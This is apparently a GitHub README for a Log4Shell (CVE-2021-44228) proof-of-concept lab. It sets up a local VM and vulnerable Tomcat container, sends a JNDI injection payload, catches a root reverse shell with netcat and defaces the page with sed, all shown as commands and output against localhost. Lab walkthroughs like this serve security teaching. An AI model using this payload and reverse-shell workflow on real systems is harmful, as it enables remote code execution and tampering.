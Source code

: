 # Log4Shell PoC

rm_poc_log4shell

## PreReqs

- Windows system with minimum 8GB RAM
- Installed:
  - Visual Studio Code
  - git
  - virtualbox
  - vagrant
- download vulnerable [jdk-8u20](https://mega.nz/file/cFQF3SpC#U01e3y3L2f-_lYzL8s5a_x11C4n7IJYMbztS4x2mT-o)

## VM environment

1. clone repo: <https://github.com/ttgithg/rm_poc_log4shell>

    ```bash
    git clone git@github.com:ttgithg/rm_poc_log4shell
    ```

2. Put downloaded jdk-file in cloned github repo: `\rm_poc_log4shell\provisioning\files\log4jlab`

3. Open Visual Studio Code and open the cloned repo `rm_poc_log4shell` as a working folder

4. Open the root of `rm_poc_log4shell` in an Integrated Terminal

5. Check status: `vagrant status`

6. Create VM + provision: `vagrant up deblab`

    **Note**: In case of errors correct them and try provisioning again with: `vagrant provision deblab`

7. Connect with ssh: `vagrant ssh deblab`

## Lab environment

Open the deblab GUI and login with debuser.
We will need 3 terminals for this setup to manage a log4shell hack.
We open the browser on the localhost:8080 and past the given request: `${jndi:ldap://localhost:1389/a}`

### Summary

```bash
# Terminal1: netcat listener
nc -lvnp 9001

# Terminal2: Launch exploit
cd /log4jlab
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

# Terminal3: vulnerable application
cd /log4jlab
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc

# browser: paste request: ${jndi:ldap://localhost:1389/a}
http://localhost:8080/
```

### Extended walkthrough

#### Terminal 1: netcat listener

```bash
┌──(debuser㉿deblab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
```

#### Terminal 2: Launch exploit

```bash
┌──(debuser㉿deblab)-[/log4jlab]
└─$ cd /log4jlab/; ls
Dockerfile     jdk-8u20-linux-x64.tar.gz  requirements.txt
Exploit.class  LICENSE                    target
Exploit.java   poc.py                     vulnerable-application
jdk1.8.0_20    README.md

┌──(debuser㉿deblab)-[/log4jlab]
└─$ sudo python3 poc.py --userip localhost --webport 8000 --lport 9001       

[!] CVE: CVE-2021-44228                                                      
[!] Github repo: https://github.com/kozmer/log4j-shell-poc                   
                                                                             
[+] Exploit java class created success
[+] Setting up LDAP server
                                                                             
[+] Send me: ${jndi:ldap://localhost:1389/a}
                                                                             
[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

#### Terminal 3: create vulnerable application

```bash
┌──(debuser㉿deblab)-[/log4jlab]
└─$ cd /log4jlab/

┌──(debuser㉿deblab)-[/log4jlab]
└─$ docker build -t log4j-shell-poc .
Sending build context to Docker daemon  574.8MB
Step 1/5 : FROM tomcat:8.0.36-jre8
8.0.36-jre8: Pulling from library/tomcat
8ad8b3f87b37: Pull complete 
751fe39c4d34: Pull complete 
b165e84cccc1: Pull complete 
acfcc7cbc59b: Pull complete 
04b7a9efc4af: Pull complete 
b16e55fe5285: Pull complete 
8c5cbb866b55: Pull complete 
96290882cd1b: Pull complete 
85852deeb719: Pull complete 
ff68ba87c7a1: Pull complete 
584acdc953da: Pull complete 
cbed1c54bbdf: Pull complete 
4f8389678fc5: Pull complete 
Digest: sha256:e6d667fbac9073af3f38c2d75e6195de6e7011bb9e4175f391e0e35382ef8d0d
Status: Downloaded newer image for tomcat:8.0.36-jre8
 ---> 945050cf462d
Step 2/5 : RUN rm -rf /usr/local/tomcat/webapps/*
 ---> Running in 118c9f3dab57
Removing intermediate container 118c9f3dab57
 ---> 0a7905e32954
Step 3/5 : ADD target/log4shell-1.0-SNAPSHOT.war /usr/local/tomcat/webapps/ROOT.war
 ---> c038eb1ce771
Step 4/5 : EXPOSE 8080
 ---> Running in e44c024ec983
Removing intermediate container e44c024ec983
 ---> 58cbb415ad3a
Step 5/5 : CMD ["catalina.sh", "run"]
 ---> Running in d10ead2ef23b
Removing intermediate container d10ead2ef23b
 ---> 989227232ea8
Successfully built 989227232ea8
Successfully tagged log4j-shell-poc:latest

┌──(debuser㉿deblab)-[/log4jlab]
└─$ docker run --network host log4j-shell-poc                                
25-Apr-2022 00:10:33.847 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version:        Apache Tomcat/8.0.36
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server built:          Jun 9 2016 13:55:50 UTC
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server number:         8.0.36.0
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Name:               Linux
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Version:            5.10.0-kali3-amd64
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Architecture:          amd64
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Java Home:             /usr/lib/jvm/java-8-openjdk-amd64/jre
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Version:           1.8.0_102-8u102-b14.1-1~bpo8+1-b14
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Vendor:            Oracle Corporation
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_BASE:         /usr/local/tomcat
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_HOME:         /usr/local/tomcat
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djdk.tls.ephemeralDHKeySize=2048
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.endorsed.dirs=/usr/local/tomcat/endorsed
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.base=/usr/local/tomcat
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.home=/usr/local/tomcat
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.io.tmpdir=/usr/local/tomcat/temp
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent Loaded APR based Apache Tomcat Native library 1.2.7 using APR version 1.5.1.
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent APR capabilities: IPv6 [true], sendfile [true], accept filters [false], random [true].
25-Apr-2022 00:10:33.855 INFO [main] org.apache.catalina.core.AprLifecycleListener.initializeSSL OpenSSL successfully initialized (OpenSSL 1.0.2h  3 May 2016)
25-Apr-2022 00:10:33.919 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["http-apr-8080"]
25-Apr-2022 00:10:33.929 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["ajp-apr-8009"]
25-Apr-2022 00:10:33.930 INFO [main] org.apache.catalina.startup.Catalina.load Initialization processed in 380 ms
25-Apr-2022 00:10:33.947 INFO [main] org.apache.catalina.core.StandardService.startInternal Starting service Catalina
25-Apr-2022 00:10:33.947 INFO [main] org.apache.catalina.core.StandardEngine.startInternal Starting Servlet Engine: Apache Tomcat/8.0.36
25-Apr-2022 00:10:33.968 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deploying web application archive /usr/local/tomcat/webapps/ROOT.war
25-Apr-2022 00:10:34.099 WARNING [localhost-startStop-1] org.apache.tomcat.util.descriptor.web.WebXml.setVersion Unknown version string [4.0]. Default version will be used.
25-Apr-2022 00:10:34.368 INFO [localhost-startStop-1] org.apache.jasper.servlet.TldScanner.scanJars At least one JAR was scanned for TLDs yet contained no TLDs. Enable debug logging for this logger for a complete list of JARs that were scanned but no TLDs were found in them. Skipping unneeded JARs during scanning can improve startup time and JSP compilation time.
25-Apr-2022 00:10:34.389 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deployment of web application archive /usr/local/tomcat/webapps/ROOT.war has finished in 420 ms
25-Apr-2022 00:10:34.390 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["http-apr-8080"]
25-Apr-2022 00:10:34.408 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["ajp-apr-8009"]
25-Apr-2022 00:10:34.409 INFO [main] org.apache.catalina.startup.Catalina.start Server startup in 478 ms
```

#### Browser

- Open URL: <http://localhost:8080/>
- paste `${jndi:ldap://localhost:1389/a}` in the `username` section
- press `login`

![poc log4shell](img/deblabimg/1.poc-log4shell.png)

The hack succeeded when the netcat listener gives:

```bash
┌──(debuser㉿deblab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48496
```

### Hack along

You can check your access and log4shell

```bash
┌──(debuser㉿deblab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48496
whoami
root
/usr/bin/script -qc /bin/bash /dev/null
root@deblab:/usr/local/tomcat# ^Z
[1]+  Stopped                 nc -lvnp 9001
┌──(debuser㉿deblab)-[~]
└─$ stty raw -echo; fg; reset
nc -lvnp 9001

root@deblab:/usr/local/tomcat# sed -i 's/Hello Again!/<<< LOG4SHELL PoC >>>/g' webapps/ROOT/index.jsp

root@deblab:/usr/local/tomcat# sed -i 's/Login/HACKED/g' webapps/ROOT/index.jsp

# Refresh browser ;-)
```

### References

- automated environment using vagrant with a [ansible skeleton](https://github.com/bertvv/ansible-skeleton) built by bertvv
- log4j CVE-2021-44228 poc [githubRepo](https://github.com/kozmer/log4j-shell-poc) built by kozer
- log4j CVE-2021-44228 testing tools [URL](https://log4shell.tools/) and [gitRepo](https://github.com/alexbakker/log4shell-tools) built by Alexander Bakker

